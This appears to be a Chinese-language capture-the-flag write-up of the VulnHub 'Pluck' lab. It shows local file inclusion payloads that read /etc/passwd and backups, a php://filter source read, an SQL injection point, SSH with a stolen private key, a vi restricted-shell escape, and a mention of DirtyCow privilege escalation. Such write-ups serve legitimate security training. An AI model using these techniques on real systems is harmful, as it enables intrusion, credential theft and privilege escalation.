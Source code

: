 ```yaml
---
title: Pluck(本地文件包含+内核漏洞提权)
categories:
- training
tags:
- training
---
```


[靶机下载地址](https://www.vulnhub.com/entry/pluck-1,178/)

```
192.168.1.115


22/tcp   open  ssh     OpenSSH 7.3p1 Ubuntu 1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
3306/tcp open  mysql   MySQL (unauthorized)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

mysql -h 192.168.1.115  -u root -p
Enter password: 
ERROR 1130 (HY000): Host '192.168.1.102' is not allowed to connect to this MySQL server
```
## 本地文件包含

http://192.168.1.115/index.php?page=contact.php

![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-08-11/4.PNG)

存在本地文件包含漏洞，可以达到任意文件读取的目的。

```
http://192.168.1.115/index.php?page=/etc/passwd

bob:x:1000:1000:bob,,,:/home/bob:/bin/bash
peter:x:1001:1001:,,,:/home/peter:/bin/bash
paul:x:1002:1002:,,,:/home/paul:/usr/bin/pdmenu
backup-user:x:1003:1003:Just to make backups easier,,,:/backups:/usr/local/scripts/backup.sh
---

http://192.168.1.115/index.php?page=/usr/local/scripts/backup.sh

文件内容如下
#Backup directories in /backups so we can get it via tftp

echo "Backing up data"
tar -cf /backups/backup.tar /home /var/www/html > /dev/null 2& > /dev/null

tar -cf是建立备份文档的意思
---
wget http://192.168.1.115/index.php?page=/backups/backup.tar

该备份文档只进行了打包，没有压缩，下图可见文件绝对路径。
```
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-08-11/5.PNG)

ssh -i id.rsa paul@IP
ssh peter@192.168.1.103
无法连接
![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-08-11/6.PNG)

查看ssh配置
http://192.168.1.103/index.php?page=/etc/ssh/sshd_config
查找[资料](https://whale3070.github.io/training/2019/10/26/07-x/)后发现，ssh私钥是这样的格式。

```
-----BEGIN RSA PRIVATE KEY-----
xxx省略
-----END RSA PRIVATE KEY-----
```
而路径中有/home/paul/keys/id_key2、/home/paul/keys/id_key3等等，只有找到正确的ssh私钥才能连接。


## sql注入
sql报错注入。因为oscp考试不允许使用自动化利用的工具，于是我特地手动利用，不使用sqlmap。
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-08-11/3.PNG)


### admin.php
http://192.168.1.103/index.php?page=php://filter/convert.base64-encode/resource=admin.php

关键代码在这一行
```
if(strpos($_POST['email'], '\'') !== false) {
	echo  "<strong>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 6</strong>";
}else{
	echo  "<strong>Incorrect Username or Password!</strong>";
}

strpos — 查找字符串首次出现的位置
如果email中存在单引号，就会提示一串sql语法错误。
```
## 查看writeup
以前没有遇到这种ssh登陆错误。

ssh -v -i id.rsa4 paul@192.168.1.103

```
OpenSSH_8.0p1 Debian-3, OpenSSL 1.1.1c  28 May 2019
debug1: Reading configuration data /etc/ssh/ssh_config
debug1: /etc/ssh/ssh_config line 19: Applying options for *
debug1: Connecting to 192.168.1.103 [192.168.1.103] port 22.
debug1: Connection established.
debug1: identity file id.rsa4 type -1
debug1: identity file id.rsa4-cert type -1
debug1: Local version string SSH-2.0-OpenSSH_8.0p1 Debian-3
debug1: Remote protocol version 2.0, remote software version OpenSSH_7.3p1 Ubuntu-1
debug1: match: OpenSSH_7.3p1 Ubuntu-1 pat OpenSSH_7.0*,OpenSSH_7.1*,OpenSSH_7.2*,OpenSSH_7.3*,OpenSSH_7.4*,OpenSSH_7.5*,OpenSSH_7.6*,OpenSSH_7.7* compat 0x04000002
debug1: Authenticating to 192.168.1.103:22 as 'paul'
debug1: SSH2_MSG_KEXINIT sent
debug1: SSH2_MSG_KEXINIT received
debug1: kex: algorithm: curve25519-sha256@libssh.org
debug1: kex: host key algorithm: rsa-sha2-512
debug1: kex: server->client cipher: chacha20-poly1305@openssh.com MAC: <implicit> compression: none
debug1: kex: client->server cipher: chacha20-poly1305@openssh.com MAC: <implicit> compression: none
debug1: expecting SSH2_MSG_KEX_ECDH_REPLY
debug1: Server host key: ssh-rsa SHA256:6k4RLcLMdnm7mjtP4Kh+t6wSWNuYpHtRT3tkINCk1wY
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@    WARNING: REMOTE HOST IDENTIFICATION HAS CHANGED!     @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
IT IS POSSIBLE THAT SOMEONE IS DOING SOMETHING NASTY!
Someone could be eavesdropping on you right now (man-in-the-middle attack)!
It is also possible that a host key has just been changed.
The fingerprint for the RSA key sent by the remote host is
SHA256:6k4RLcLMdnm7mjtP4Kh+t6wSWNuYpHtRT3tkINCk1wY.
Please contact your system administrator.
Add correct host key in /root/.ssh/known_hosts to get rid of this message.
Offending RSA key in /root/.ssh/known_hosts:1
  remove with:
  ssh-keygen -f "/root/.ssh/known_hosts" -R "192.168.1.103"
RSA host key for 192.168.1.103 has changed and you have requested strict checking.
Host key verification failed.
```
ssh-keygen -f "/root/.ssh/known_hosts" -R "192.168.1.103"

只要根据提示，删除以前的记录即可。可能是因为以前也使用过相同的ip进行ssh无密码登陆，而这个是不同的主机，所以登陆失败了。

删除记录后再次尝试登陆，ssh会提示是否保存记录，我们输入yes。

登陆成功。

![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-08-11/7.PNG)

## 突破限制的shell
ssh登陆后，是一个限制权限的shell，只能运行上述图片中的功能。

选择edit file，然后输入/tmp，这是一个存在的目录。
使用的是vi编辑器来编辑文件。

输入
```
:set shell=/bin/bash
:shell
```
于是获得了paul权限的/bin/bash

![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-08-11/8.PNG)

有哪些方法突破有限制的shell?

## 提权
uname -a
Linux pluck 4.8.0-22-generic #24-Ubuntu SMP Sat Oct 8 09:15:00 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux

上传linux-exploit-suggester.sh


![9](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-08-11/9.PNG)

dirtycow内核漏洞提权。
    

